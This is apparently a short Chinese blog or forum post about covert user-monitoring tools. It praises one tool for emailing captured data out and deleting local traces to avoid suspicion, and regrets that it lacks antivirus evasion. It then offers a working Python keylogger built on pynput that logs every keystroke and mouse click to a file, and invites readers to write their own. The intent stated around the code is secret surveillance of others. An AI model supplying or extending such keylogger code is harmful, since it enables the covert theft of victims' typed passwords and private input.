 功能挺完善的，还能定时把数据发送到指定邮箱，并且删除掉数据，把数据删除就不会因为截图太多把占用太多内存，引起怀疑，缺点就是没有免杀，如果免杀了的话，也算是个利器来的，有条件的大佬也可以自己用 py 写个脚本，类似于这种  
\`

```plain
#coding=utf-8
from pynput import keyboard, mouse
from loguru import logger
from threading import Thread

logger.add('monitor.log')


def on_press(key):
    logger.debug(f'键盘输出：{key} ')

def on_release(key):
    if key == keyboard.Key.esc:
        return False

def f1():
    with keyboard.Listener(on_press=on_press, on_release=on_release) as lsn:
        lsn.join()


def on_click(x, y, button, pressed):
    if button == mouse.Button.left:
        logger.debug('鼠标左键点击')
    elif button == mouse.Button.right:
        logger.debug('鼠标右键点击')
        return False
    else:
        logger.debug('mid 被点击')


def f2():
    with mouse.Listener(on_click=on_click) as listener:
        listener.join()


if __name__ == '__main__':
    t1 = Thread(target=f1)
    t2 = Thread(target=f2)
    t1.start()
    t2.start()
```
